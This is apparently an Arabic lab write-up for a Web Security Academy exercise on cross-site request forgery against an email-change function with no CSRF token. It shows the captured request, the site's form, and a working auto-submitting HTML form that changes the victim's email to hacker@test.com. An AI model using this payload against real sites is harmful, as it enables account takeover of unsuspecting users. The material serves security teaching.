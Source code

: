 
فكرة السيناريو هو ان مفيش اي حماية خالص علي الcsrf علي فانكشن ال `change email` بمعني أن مفيش اي `csrf token` ف كان ده شكل ال request
```HTTP
POST /my-account/change-email HTTP/2
Host: 0ae100a90470eeabad244bc70046007f.web-security-academy.net
Cookie: session=a830YAygDKtjsWFRxKfvk0JteyJLCjvK
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ae100a90470eeabad244bc70046007f.web-security-academy.net
Referer: https://0ae100a90470eeabad244bc70046007f.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

email=test%40test.com
```
وكان ده ال `form` بتاعت الفانكشن 
```HTML
<form class="login-form" name="change-email-form" action="[/my-account/change-email](view-source:https://0ae100a90470eeabad244bc70046007f.web-security-academy.net/my-account/change-email)" method="POST">
<label>Email</label>
<input required type="email" name="email" value="">
<button class='button' type='submit'> Update email </button>
</form>
```
فأستخدمتها عشان اعمل `exploit` للثغرة ف الكود النهائي كان ده
```HTML
<form action="https://0a600026033ba86d807cee6c00f400b1.web-security-academy.net/my-account/change-email" method="POST">
        <input required type="email" name="email" value="hacker@test.com">
        <button class='button' type='submit'> Update email </button>
</form>

<script> document.forms[0].submit(); </script>
```
واللي معناه انه لما يشتغل الكود هيتم تغيير الايميل الي `hacker@test.com`


### نتعلم اي من اللاب ده ؟

* ان مينفعش يبقي مفيش حماية علي ال `csrf token` 